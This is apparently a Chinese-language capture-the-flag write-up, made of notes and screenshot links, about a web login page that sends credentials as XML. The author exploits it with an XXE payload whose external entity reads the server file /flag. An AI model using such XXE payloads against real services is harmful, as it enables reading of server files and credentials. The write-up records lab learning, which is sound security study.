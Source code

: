 ![[Pasted image 20221126110208.png|800]]

---
首页长这样

![[Pasted image 20221126110251.png]]

有几行js，大意是将用户名和密码通过`xml`传输

![[Pasted image 20221126110150.png]]

瞎输一通出发了报错，好像可以对发送的`xml`进行注入

![[Pasted image 20221126110430.png]]

这玩意没咋了解过，就当是学习`XXE`了叭QAQ

https://xz.aliyun.com/t/6887

```xml
<?xml version="1.0"?>
<!DOCTYPE xxe [
<!ENTITY flag SYSTEM "file:///flag">
]>
<user>
	<username>&flag;</username>
	<password>123</password>
</user>
```

![[Pasted image 20221126115039.png]]

#Web #XXE